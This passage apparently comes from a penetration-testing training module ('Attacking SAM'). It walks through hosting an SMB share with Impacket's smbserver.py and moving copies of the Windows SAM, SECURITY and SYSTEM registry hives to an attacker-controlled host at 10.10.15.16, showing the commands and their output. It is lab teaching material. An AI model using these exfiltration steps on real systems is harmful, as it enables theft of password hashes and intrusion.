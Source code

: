 #### Creating a Share with smbserver.py

All we must do to create the share is run smbserver.py -smb2support using python, give the share a name (`CompData`) and specify the directory on our attack host where the share will be storing the hive copies (`/home/ltnbob/Documents`). Know that the `smb2support` option will ensure that newer versions of SMB are supported. If we do not use this flag, there will be errors when connecting from the Windows target to the share hosted on our attack host. Newer versions of Windows do not support SMBv1 by default because of the [numerous severe vulnerabilites](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=smbv1) and publicly available exploits.

Attacking SAM

```shell-session
frank-106@htb[/htb]$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Once we have the share running on our attack host, we can use the `move` command on the Windows target to move the hive copies to the share.

#### Moving Hive Copies to Share

Attacking SAM

```cmd-session
C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
        1 file(s) moved.
```

Then we can confirm that our hive copies successfully moved to the share by navigating to the shared directory on our attack host and using `ls` to list the files.

#### Confirming Hive Copies Transferred to Attack Host

Attacking SAM

```shell-session
frank-106@htb[/htb]$ ls

sam.save  security.save  system.save
```

---